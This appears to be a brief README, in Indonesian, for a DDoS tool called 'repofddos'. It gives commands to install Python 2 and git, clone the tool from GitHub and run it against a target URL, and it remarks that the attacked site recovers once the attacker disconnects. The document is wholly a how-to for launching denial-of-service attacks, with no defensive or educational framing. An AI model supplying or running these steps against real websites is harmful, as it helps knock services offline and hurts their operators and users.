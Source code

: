 # repofddos

$pkg install python2 -y

$pkg install git

$git clone https://github.com/Zye177/repofddos

$cd repofddos

$python2 repofddos.py

$python2 repofddos.py "url"

untuk menghentikan ddos "ctrl+z"

!! Kelemahan jika mengalami disconnect website kembali normal !!
